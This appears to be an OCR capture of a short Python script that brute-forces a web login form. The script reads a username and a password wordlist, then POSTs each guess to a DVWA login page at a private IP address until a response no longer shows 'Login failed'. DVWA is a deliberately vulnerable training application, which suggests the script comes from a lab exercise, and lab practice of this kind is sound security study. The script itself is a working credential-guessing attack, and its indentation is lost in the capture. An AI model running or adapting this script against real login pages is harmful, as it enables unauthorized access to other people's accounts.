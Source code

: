 import requests

# define the webpage you want to crack

# this page must be a login page with a username and password

url = "http://192.168.2.18/dvwa/login.php"

# let's get the username

username = input("What is the username you wish to attempt? ")

# next, let's get the password file

password_file = input("Please enter the name of the password file: ")

# open the password file in read mode

file = open(password_file, "r")

# now let's get each password in the password_file

for password in file.readlines():

# let's strip it of any \n

password = password.strip("\n")

# collect the data needed from "inspect element"

data = {'username':username, 'password':password, "Login":'submit'}

send_data_url = requests.post(url, data=data)

if "Login failed" in str(send_data_url.content):

print("[*] Attempting password: %s" % password)

else:

print("[*] Password found: %s " % password)
